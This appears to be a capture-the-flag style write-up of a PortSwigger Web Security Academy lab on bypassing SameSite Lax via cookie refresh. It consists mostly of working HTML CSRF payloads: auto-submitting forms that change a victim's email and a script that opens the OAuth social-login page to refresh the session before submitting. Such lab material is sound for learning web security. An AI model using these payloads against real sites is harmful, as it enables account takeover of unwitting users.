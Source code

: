 # SameSite Lax bypass via cookie refresh

## This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

## The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

### HINT:

```html
<script>
  history.pushState("", "", "/");
</script>
<form
  action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"
  method="POST"
>
  <input type="hidden" name="email" value="foo@bar.com" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

### step1

use this stricpt store view expoit it will change email if you login and wait for 2 minute it will not change email so do within 2 minute

```html
<script>
  history.pushState("", "", "/");
</script>
<form
  action="https://0a05009904830764825ebf6c00de0053.web-security-academy.net/my-account/change-email"
  method="POST"
>
  <input type="hidden" name="email" value="foo1@bar.com" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

### step2

### HINT:

```html
<form
  method="POST"
  action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"
>
  <input type="hidden" name="email" value="pwned@web-security-academy.net" />
</form>
<script>
  window.open("https://YOUR-LAB-ID.web-security-academy.net/social-login");
  setTimeout(changeEmail, 5000);

  function changeEmail() {
    document.forms[0].submit();
  }
</script>
```

change the script according to details with lab url
there is page `/social-login` it will rediredirect to login page this automatically initiates the full OAuth flow

```html
<form
  method="POST"
  action="https://0a05009904830764825ebf6c00de0053.web-security-academy.net/my-account/change-email"
>
  <input type="hidden" name="email" value="pwned@web-security-academy.net" />
</form>
<script>
  window.open(
    "https://0a05009904830764825ebf6c00de0053.web-security-academy.net/social-login"
  );
  setTimeout(changeEmail, 5000);

  function changeEmail() {
    document.forms[0].submit();
  }
</script>
```
